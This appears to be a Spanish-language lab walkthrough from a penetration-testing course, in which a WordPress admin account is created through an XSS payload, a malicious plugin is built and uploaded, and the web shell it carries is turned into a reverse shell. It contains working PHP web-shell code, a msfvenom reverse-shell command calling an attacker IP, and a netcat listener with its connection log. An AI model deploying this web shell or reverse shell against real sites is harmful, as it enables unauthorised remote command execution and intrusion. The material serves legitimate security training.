 # Walk: Ejercicio de reconocimiento

## Fecha: 17/01/2025
## Host: Kali
## IP: 

---

## Objetivo
Capstone Lab: Start Module Exercise VM 1 and add a new administrative account 
like we did in this Learning Unit. Next, craft a WordPress plugin that embeds 
a web shell and exploit it to enumerate the target system. 
Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. 
Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.

---
## Herramientas
1. curl 
2. php
3. nc
---
## Procedimiento y comandos
1. Paso 1: Creamos el usuario como en la POC anterior: 
	curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...payload...))</script>" --proxy 127.0.0.1:8080

2. Paso 2: Creamos el plugin malicioso:
	```
		<?php
		/*
			Plugin Name: Malicious Plugin
			Description: A malicious WordPress plugin for reverse shell.
			Version: 1.0
			Author: Attacker
		*/

		// Web shell or reverse shell code here
		if (isset($_GET['cmd'])) {
		    echo "<pre>";
		    system($_GET['cmd']);
		    echo "</pre>";
		}
		?>
	```
3. Paso 3: Subimos el plugin y probamos si por url obtenemos lo que buscamos:
	* Comprimimos el plugin. Nota: el plugin debe cumplir con algunas caracteristicas, debe estar **dentro de una carpeta**, y debe **contener una cabecera**
	1. ** zip -r malicius-plugin-8.4.5.zip malicius-plugin-8.4.5/ **
	* Plugins > add new
	2. ** http://offsecwp/malicious-plugin.php?cmd=whoami**
	- resultado: www-data
4. Paso 4:Generamos el reverse Shell: (Completar paso 4)
	- **msfvenom -p php/reverse_php LHOST=192.168.45.205 LPORT=4444 -f raw > reverse-shell-msfvenom.php**
	- reverse-shell reobusta con msfvenom. Se debe agregar cabecera estandar para plugins.
5. Paso 5: Escuchamos con netcat en el puerto de nuestra preferencia
	- **nc -lnvp 4444**
	- Buscamos el flag en /tmp
---
## Troubleshooting
1. The package could not be installed. PCLZIP_ERR_BAD_FORMAT (-10) : Unable to find End of Central Dir Record signature

2. Cabecera del plugin.

3.  nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.137.16] 33176
.. se desonecta automaticamente.. 
---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

